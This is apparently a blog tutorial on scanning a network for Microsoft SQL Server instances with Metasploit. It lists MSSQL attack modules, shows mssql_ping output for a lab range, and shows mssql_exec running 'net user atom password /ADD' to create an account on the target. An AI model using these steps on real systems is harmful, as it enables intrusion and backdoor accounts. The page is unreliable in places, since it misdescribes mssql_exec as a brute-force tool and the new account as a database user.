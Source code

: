 ```yaml
---
draft: false
title: MSSQL Scanning with MSF
linkTitle: MSSQL Scanning
weight: 110
translationKey:: mssql-scanning-with-msf
date: 2017-05-16T12:52:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework provides an ability to search for MSSQL installations on other IP addresses in the network you are on.
url: /mssql-scanning-with-msf/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

One of the possibilities that Metasploit Framework provides to the user is that you can search for MSSQL installations on other IP addresses in the network you are on. For this, a trace search is performed with UDP scanning.

When MSSQL is first installed, it listens on port 1433 by default. It may be set to listen on randomly selected ports rather than port 1433. In this case, port 1434 may be asked which port the listening is done on.

In the example below, modules containing the phrase `mssql` are first searched.

```bash
msf > search mssql

Matching Modules
**================**

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/admin/mssql/mssql_enum                                           normal     Microsoft SQL Server Configuration Enumerator
   auxiliary/admin/mssql/mssql_enum_domain_accounts                           normal     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli                      normal     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_sql_logins                                normal     Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
   auxiliary/admin/mssql/mssql_escalate_dbowner                               normal     Microsoft SQL Server Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                          normal     Microsoft SQL Server SQLi Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_execute_as                            normal     Microsoft SQL Server Escalate EXECUTE AS
   auxiliary/admin/mssql/mssql_escalate_execute_as_sqli                       normal     Microsoft SQL Server SQLi Escalate Execute AS
   auxiliary/admin/mssql/mssql_exec                                           normal     Microsoft SQL Server xp_cmdshell Command Execution
   auxiliary/admin/mssql/mssql_findandsampledata                              normal     Microsoft SQL Server Find and Sample Data
   auxiliary/admin/mssql/mssql_idf                                            normal     Microsoft SQL Server Interesting Data Finder
   auxiliary/admin/mssql/mssql_ntlm_stealer                                   normal     Microsoft SQL Server NTLM Stealer
   auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                              normal     Microsoft SQL Server SQLi NTLM Stealer
   auxiliary/admin/mssql/mssql_sql                                            normal     Microsoft SQL Server Generic Query
   auxiliary/admin/mssql/mssql_sql_file                                       normal     Microsoft SQL Server Generic Query from File
   auxiliary/analyze/jtr_mssql_fast                                           normal     John the Ripper MS SQL Password Cracker (Fast Mode)
   auxiliary/gather/lansweeper_collector                                      normal     Lansweeper Credential Collector
   auxiliary/scanner/mssql/mssql_hashdump                                     normal     MSSQL Password Hashdump
   auxiliary/scanner/mssql/mssql_login                                        normal     MSSQL Login Utility
   auxiliary/scanner/mssql/mssql_ping                                         normal     MSSQL Ping Utility
   auxiliary/scanner/mssql/mssql_schemadump                                   normal     MSSQL Schema Dump
   auxiliary/server/capture/mssql                                             normal     Authentication Capture: MSSQL
   exploit/windows/iis/msadc                                 1998-07-17       excellent  MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
   exploit/windows/mssql/lyris_listmanager_weak_pass         2005-12-08       excellent  Lyris ListManager MSDE Weak sa Password
   exploit/windows/mssql/ms02_039_slammer                    2002-07-24       good       MS02-039 Microsoft SQL Server Resolution Overflow
   exploit/windows/mssql/ms02_056_hello                      2002-08-05       good       MS02-056 Microsoft SQL Server Hello Overflow
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin       2008-12-09       good       MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli  2008-12-09       excellent  MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption via SQL Injection
   exploit/windows/mssql/mssql_clr_payload                   1999-01-01       excellent  Microsoft SQL Server Clr Stored Procedure Payload Execution
   exploit/windows/mssql/mssql_linkcrawler                   2000-01-01       great      Microsoft SQL Server Database Link Crawling Command Execution
   exploit/windows/mssql/mssql_payload                       2000-05-30       excellent  Microsoft SQL Server Payload Execution
   exploit/windows/mssql/mssql_payload_sqli                  2000-05-30       excellent  Microsoft SQL Server Payload Execution via SQL Injection
   post/windows/gather/credentials/mssql_local_hashdump                       normal     Windows Gather Local SQL Server Hash Dump
   post/windows/manage/mssql_local_auth_bypass                                normal     Windows Manage Local Microsoft SQL Server Authorization Bypass
```

We will use the module named `auxiliary/scanner/mssql/mssql_ping` from the listed modules. In the example below, MSSQL scanning is performed on the IP address range `10.211.55.1/24`.

```bash
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > show options

Module options (auxiliary/scanner/mssql/mssql_ping):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD no The password for the specified username
 RHOSTS yes The target address range or CIDR identifier
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 THREADS 1 yes The number of concurrent threads
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
RHOSTS => 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

> SQL Server information for **10.211.55.128:
> tcp **=** 1433
> np **=** SSHACKTHISBOX-0pipesqlquery
> Version **=** 8.00.194
> InstanceName **=** MSSQLSERVER
> IsClustered **=** No
> ServerName **=** SSHACKTHISBOX-0
> Auxiliary module execution completed
```

As can be seen in the result, MSSQL service is running on IP address `10.211.55.128` and Port number 1433. From this point on, **brute-force** attempts can be made using the `mssql_exec` module. Alternatively, medusa or THC-Hydra can be used.

```bash
msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 CMD cmd.exe /c echo OWNED > C:\owned.exe no Command to execute
 PASSWORD no The password for the specified username
 RHOST yes The target address
 RPORT 1433 yes The target port (TCP)
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)


msf auxiliary(mssql_exec) > set RHOST 10.211. 55.128
RHOST => 10.211. 55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
MSSQL_PASS => password
msf auxiliary(mssql_exec) > set CMD net user atom password /ADD
cmd => net user atom password /ADD
msf auxiliary(mssql_exec) > exploit
```

In the example above, if the exploit is successful, a user is added to the MSSQL database by sending the `net user atom password /ADD` command. Note that this command is entered into the CMD variable with `set CMD net user atom password /ADD`.
